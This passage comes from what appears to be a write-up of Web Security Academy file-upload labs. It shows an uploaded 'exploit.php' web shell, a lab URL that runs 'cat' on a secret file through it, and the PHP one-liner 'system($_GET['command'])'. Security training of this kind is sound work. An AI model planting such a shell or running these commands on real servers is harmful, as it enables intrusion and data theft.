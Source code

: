 **Response**
```
HTTP/1.1 200 OK
Date: Tue, 06 Jun 2023 13:20:02 GMT
Server: Apache/2.4.41 (Ubuntu)
Vary: Accept-Encoding
Keep-Alive: timeout=5, max=100
Connection: close
Content-Type: text/html; charset=UTF-8
X-Frame-Options: SAMEORIGIN
Content-Length: 132

The file avatars/exploit.php has been uploaded.<p><a href="/my-account" title="Return to previous page">« Back to My Account</a></p>
```

We see our avatar image is uploaded and after reloading the `/my-account` page we see a link for our avatar image.

```
https://0a7100d6043375628054efe4008d00d0.web-security-academy.net/files/avatars/exploit.php
```

Now like we did in the previous lab executes the system command to exfiltrate the `/home/carlos/secret` file content.

```
https://0a7100d6043375628054efe4008d00d0.web-security-academy.net/files/avatars/exploit.php?cmd=cat%20/home/carlos/secret
```

### Restrict File Execution

To enhance security, it is crucial to prevent the upload of harmful file types. However, as an additional measure, it is essential to block the execution of any scripts that manage to bypass the initial security measures.

As a safeguard, servers typically execute scripts only if their MIME type has been explicitly configured for execution. Otherwise, the server may respond with an error message or, in certain situations, serve the file's contents as plain text.

```
GET /static/exploit.php?command=id HTTP/1.1 
Host: normal-website.com 

HTTP/1.1 200 OK 
Content-Type: text/plain 
Content-Length: 39 

<?php echo system($_GET['command']); ?>
```

This behavior can be intriguing since it could allow for source code leakage, but it effectively prevents the creation of a web shell.

Such configurations often vary between directories. The directory where user-uploaded files are stored is likely to have stricter controls compared to other areas of the file system that are assumed to be inaccessible to end users. However, if you manage to upload a script to a different directory that is not intended for user-supplied files, the server might still execute your script.
